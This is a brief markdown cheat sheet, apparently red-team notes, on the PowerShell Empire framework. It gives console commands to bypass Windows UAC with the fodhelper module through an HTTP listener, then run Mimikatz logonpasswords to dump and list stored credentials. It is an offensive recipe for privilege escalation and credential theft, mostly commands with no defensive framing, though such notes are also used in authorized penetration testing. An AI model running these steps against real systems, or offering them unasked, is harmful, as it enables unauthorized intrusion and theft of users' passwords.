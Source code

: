 # Empire

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
* [https://zayotic.com/posts/empire-cheatsheet/](https://zayotic.com/posts/empire-cheatsheet/)

## fodhelper

* if you have local admin access, this module may be able to launch a high-integrity PowerShell Empire agent through bypassing the UAC (which you need to run Mimikatz, etc...)

```
# load the Empire module
usemodule privesc/bypassuac_fodhelper

# display info
info

# setup a listener
set Listener http

# run the module
execute

# if this works, then you now have a high-integrity Powershell Empire agent which
# is needed in order to run Mimikatz and other high-integrity modules
usemodule credentials/mimikatz/logonpasswords
execute
sekurlsa::logonpasswords

# view the creds that were just dumped
creds

# add your own creds to creds
creds add example.com exampleusername ex4mpl3p4ssw0rd
```
